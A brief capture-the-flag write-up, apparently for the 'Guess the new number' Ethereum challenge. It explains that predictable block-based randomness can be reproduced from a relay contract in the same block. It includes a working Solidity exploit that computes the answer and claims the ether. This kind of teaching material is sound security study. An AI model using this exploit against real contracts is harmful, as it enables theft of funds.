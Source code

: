 # Guess the new number

As in previous challenge we should guess result of hashing block metadata. Unlike previous challenge here we use previous block.

So transaction where we calculate answer should be mined in the same block, then they will have same block metadata.

To achieve it  we could call **guess** method from relay contract, where we already calculate answer for current block.
```solidity
function solve(address contractToSolve) public payable {
    GuessTheNewNumberChallenge c = GuessTheNewNumberChallenge(contractToSolve);
    uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
    c.guess.value(1 ether)(answer);
    msg.sender.transfer(address(this).balance);
}
```